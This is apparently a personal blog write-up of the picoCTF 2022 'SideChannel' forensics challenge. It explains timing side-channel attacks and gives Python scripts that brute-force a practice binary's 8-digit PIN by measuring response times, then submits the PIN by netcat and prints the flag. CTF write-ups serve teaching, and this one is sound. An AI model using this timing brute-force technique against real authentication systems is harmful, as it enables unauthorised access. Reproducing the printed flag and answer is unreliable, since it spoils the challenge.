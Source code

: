 ```yaml
---
title: "picoCTF 2022 SideChannel Writeup"
date: 2022-04-08T19:16:29+08:00
description: "PicoCTF 2022 forensics problem SideChannel writeup"
tags: [picoctf, ctf-writeups]
---
```

## The problem
![](https://s2.loli.net/2022/04/08/y8qCUfcs6dx4WpV.png)
[link to the problem](https://play.picoctf.org/practice/challenge/298?category=4&originalEvent=70&page=1)

### Hints
1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-enginner or exploit the binary won't work
3. Run the attacks against the `pin_checker` binary

## Solution

### Running the binary
A problem that would likely occur when solving this problem is running the binary.

The binary provided by picoCTF is not compatible with my local machine(Macbook).
However, the binary could be easily executed within picoCTF's webshell.

First, download the binary:
```shell
wget https://artifacts.picoctf.net/c/149/pin_checker`
chmod +x ./pin_checker #give permission to run the binary
./pin_checker #run the pin checker binary
```
A prompt for an 8 digit code should be shown:
```
Please enter your 8-digit PIN code:
11111111
8
Checking PIN...
Access denied.
```

### Timing based side channel attack
In hint 1, we can see that we're supposed to look up "timining based side channel attack"

After some digging on the internet, you'll find that timing based side channel attacks refers to the behavior of certain programs where the timing of execution is different based on different inputs.

Suppose the pin checking function in our pin checker is implemented as the following:
```python
def check(PIN, inp):
  if len(PIN) != len(inp):
    return False
  for i in range(len(PIN)):
    if(PIN[i]!=inp[i]]):
      return False
  return True
```
This function will execute for a longer time if the match between user input and the correct PIN is longer.

Thus, we can write a simple script to verify this vulnerbility.

```python
import time, os
TEST_COUNT = 10
LEN = 8
CHOICES = "0123456789"
prefix = ""

for c in CHOICES:
  cur = prefix+c+'0'*(LEN-len(prefix)-1)
  foo = 0
  for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
    start = time.time()
    os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
    foo += (time.time()-start)
  avgtime = foo/TEST_COUNT
  print(f"{cur}: {avgtime}")
```

The results:

```
00000000: 0.23883512020111083
10000000: 0.2588793277740479
20000000: 0.25079033374786375
30000000: 0.28905391693115234
40000000: 0.4896090030670166
50000000: 0.27194507122039796
60000000: 0.24216597080230712
70000000: 0.268372631072998
80000000: 0.2515885591506958
90000000: 0.25005943775177003
```

As we can see, guesses starting with '4' takes significantly longer to execute compared to guesses starting from all the other numbers. The exploit is working.

Therefore, instead of manually testing this technique for 8 times, we could instead automate this by modifying our program.

```python
import time, os
TEST_COUNT = 4 # set this to a lower number for faster results
LEN = 8
CHOICES = "0123456789"

def check(prefix):
  mxtime = -1
  res = ''
  for c in CHOICES:
    cur = prefix+c+'0'*(LEN-len(prefix)-1)
    foo = 0
    for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
      start = time.time()
      os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
      foo += (time.time()-start)
    avgtime = foo/TEST_COUNT
    if avgtime>mxtime:
      mxtime = avgtime
      res = c
  return res


def main():
  prefix = ''
  for i in range(7):
    c = check(prefix)
    prefix+=c
    print(c)
  # Check the final number(do not hide the results)
  for c in CHOICES:
    cur = prefix+c
    print(f"------ trying {cur} --------")
    os.system(f"echo '{cur}' | ./pin_checker")

main()
```

After running the program, you should see the results:
```
4
8
3
9
0
5
1
------ trying 48390510 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.

...

------ trying 48390513 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.

... 

------ trying 48390519 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.
```
When checking for the pin `48390513`, "access granted" as shown.
Finally, we can take the pin, and get the flag from the server.
```shell
echo 48390513 | nc saturn.picoctf.net 53932
```

The results:

```
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_18704dda}
```
thus the flag is `picoCTF{t1m1ng_4tt4ck_18704dda}`
